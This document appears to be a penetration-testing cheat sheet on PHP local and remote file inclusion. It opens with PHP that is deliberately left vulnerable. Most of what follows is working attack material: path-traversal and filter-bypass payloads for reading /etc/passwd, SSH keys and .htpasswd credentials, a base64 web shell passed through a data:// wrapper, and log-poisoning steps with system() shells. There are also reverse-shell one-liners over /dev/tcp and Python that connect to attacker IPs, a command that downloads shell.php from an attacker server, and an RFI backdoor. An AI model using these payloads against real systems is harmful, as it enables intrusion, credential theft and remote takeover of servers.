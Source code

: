 ## Local file inclusion

### PHP
##### Vulnerable code:

###### Standard vulnerable to everything:
```php
<?php                                                                                                                                                                                                                                          
include 'templates/header.php';                                                                                                                                                                                                                
?>                                                                                                                                                                                                                                             
<div class="container mt-4">                                                                                                                                                                                                                   
<?php                                                                                                                                                                                                                                          
ini_set('display_errors', true);       # UNSAFE        
ini_set('safe_mode', false);           # UNSAFE (removed from PHP 5.3.0 onwards). If enabled, won't allow reads to anyhting not user-owned, DB creds should be in the file if it accesses any DB. Other functions can be disabled (readfile, basedir)
# http://php.adamharvey.name/manual/en/ini.sect.safe-mode.php

ini_set('allow_url_fopen', false);     # Disallows PHP opening URL files                
ini_set('allow_url_include', false);   # Allows "include" statements to the PHP code. note: Can only be enabled if "allow_url_fopen" is true. https://www.php.net/manual/en/filesystem.configuration.php
ini_set('allow_url_include', 'Off');   # ?

if(isset($_GET['page'])){
        include($_GET['page']); # VULNERABLE (any payload injected will work)
}else{
        include 'menu.php';
}
?>
</div>
<?php
include 'templates/footer.php';
?>
```
###### PHP with filter (/var/www/html):
```php
<?php
include 'templates/header.php';
?>
<div class="container mt-4">
<?php
ini_set('display_errors', true);       # UNSAFE        
ini_set('safe_mode', false);           # UNSAFE (removed from PHP 5.3.0 onwards). If enabled, won't allow reads to anyhting not user-owned, DB creds should be in the file if it accesses any DB. Other functions can be disabled (readfile, basedir)
# http://php.adamharvey.name/manual/en/ini.sect.safe-mode.php

ini_set('allow_url_fopen', false);     # Disallows PHP opening URL files                
ini_set('allow_url_include', false);   # Allows "include" statements to the PHP code. note: Can only be enabled if "allow_url_fopen" is true. https://www.php.net/manual/en/filesystem.configuration.php
ini_set('allow_url_include', 'Off');   # ?

function containsStr($str, $subStr){
    return strpos($str, $subStr) !== false;
}

if(isset($_GET['page'])){
    if(!containsStr($_GET['page'], '../..') && containsStr($_GET['page'], '/var/www/html')){
        include $_GET['page'];
    }else{
        echo 'You are not allowed to go outside /var/www/html/ directory!';
    }
}else{
    include 'menu.php';
}
?>
</div>
<?php
include 'templates/footer.php';
?>

```

#### Achieving LFI:
##### General payloads
```
- Standard:
/etc/passwd
../../../../../../../etc/passwd

- URL encodings
%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c/etc/passwd
/%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../etc/passwd
%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2Fetc%2Fpasswd


- "Filter and remove" bypass
....//....//....//....//....//....//....//....//etc/passwd

- another filter bypass
.././.././.././../etc/passwd  (Bypass "../.." filter)

- Original path kept
/var/www/../../etc/passwd
/var/www/html/../../../etc/passwd

Note: extra output gets appended, use a nullbyte (%00) to immediately terminate the string. This might cause issues.
%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2Fetc%2Fpasswd%00 (Bypass extensions with a NULL byte, PHP < 5.3.4)
```

##### PHP wrappers
PHP wrappers have the same general functionality as normal LFI, but they can bypass some filters.
```
php://filter/string.rot13/resource=../../../../../etc/passwd
php://filter/convert.base64-encode/resource=../../../../../../../etc/passwd                              // Use to read PHP files (resource=index.php)
data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ZWNobyAnU2hlbGwgZG9uZSAhJzsgPz4+txt         // `cmd` argument inclusion, prints "Shell done!" if it works. "allow_url_inclue" needs to be enabled for it to work.
```


### Log poisoning (RCE)
##### Required
Access to files
A log file (Usually `/var/log/apache2/access.log`), see #

#### Linux
##### Important
First, run 
```
../../../proc/self/environ
```
to get general information.
If RCE doesn't work, try RFI (other vhosts on machine)
If there is HTTP-BASIC-AUTH involved, check the `.htpasswd` file, it often contains credentials. (usually `/etc/apache2/.htpasswd`)
##### Target files: 
```
RCE:
/var/log/apache2/access.log
Payload:
	bash%20-c%20%22bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F10.10.10.10%2F4444%200%3E%261%22 

Other potentially interesting files:
/proc/self/environ
/etc/passwd -->
	/home/USER_FOUND/.ssh/id_rsa
	/home/USER_FOUND/.bash_history
	/home/USER_FOUND/.bash_profile
	/home/USER_FOUND/.bashrc

```

#### Windows
##### Target files: 
```
C:\xampp\apache\logs\access.log
Payload:
	https://www.revshells.com/ (Powershell base64 - URL encoded)
```

#### General
Payload: 
```
<?php system($_GET['test']);?>

// Get PHP shell (named shell.php) from python3 server (saves as shell.php)
<?php file_put_contents('shell.php', file_get_contents('http://IP:PORT/shell.php'))?>
```

First, you need to get the payload in the log system:

```
nc IP PORT
GET /'<?php system($_GET['rce']); ?>'
test=bash%20-c%20%22bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.45.241%2F4444%200%3E%261%22 
```

If this does not work, set your User-Agent as the payload.

To use the payload, send a request to the log file with the command in your payload:
```
// Template
curl http://IP/vulnerable.php?file=LOG_FILE_LOCATION&CMD=PAYLOAD

// Examples
curl http://IP/vulnerable.php?file=LOG_FILE_LOCATION&CMD=bash -i >& /dev/tcp/10.8.1.167/4444 0>&1
	curl http://IP/vulnerable.php?file=LOG_FILE_LOCATION&CMD=export RHOST="10.8.1.167";export RPORT=4444;python3 -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("sh")'
```

### Note
Importanot note:
If you can read `/etc/passwd`, go through every user's home directory for the `.bashrc`


##### Mongo
Target file: `/var/www/dev/index.js`

### RFI
For remote file inclusion, the goal is to load extra PHP from an outside source (the attacker) into the target webpage.
##### Note: make sure the file is hosted using `python3`, and not a host that will parse away the PHP.
##### Example
```php
<?php
if(isset($_REQUEST['cmd'])){
	echo "<pre>";                 # Will load the <pre> tag, making the target website's PHP parser load the command first
	$cmd = ($_REQUEST['cmd']);
	system($cmd);
	echo "</pre>";
	die;
}
?>
```
##### Payload
```
?page=http://192.168.45.232/php_backdoor.php&cmd=id
```
